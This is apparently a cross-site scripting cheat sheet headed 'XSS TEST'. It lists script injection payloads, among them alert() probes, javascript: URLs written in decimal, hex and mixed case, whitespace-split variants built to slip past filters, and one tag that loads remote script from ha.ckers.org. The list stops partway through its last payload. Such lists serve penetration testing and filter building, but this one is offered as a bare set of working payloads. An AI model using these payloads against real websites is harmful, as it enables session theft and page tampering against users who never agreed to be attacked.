 ### XSS TEST ###

	';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

	'';!--"<XSS>=&{()}

	<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

	<IMG SRC="javascript:alert('XSS');">

	<IMG SRC=JaVaScRiPt:alert('XSS')>

	<IMG SRC=javascript:alert(&quot;XSS&quot;)>

	<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

	<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

	<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

	<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

	<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

	<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

	<IMG SRC="jav	ascript:alert('XSS');">

	<IMG SRC="jav&#x09;ascript:alert('XSS');">

	<IMG SRC="jav&#x0A;ascript:alert('XSS');">

	<IMG SRC="jav&#x0D;ascript:alert('XSS');">

	<IMG
	SRC
	=
	"
	j
	a
	v
	a
	s
	c
	r
	i
	p
	t
	:
	a
	l
	e
	r
	t
	(
	'
	X
	S
	S
	'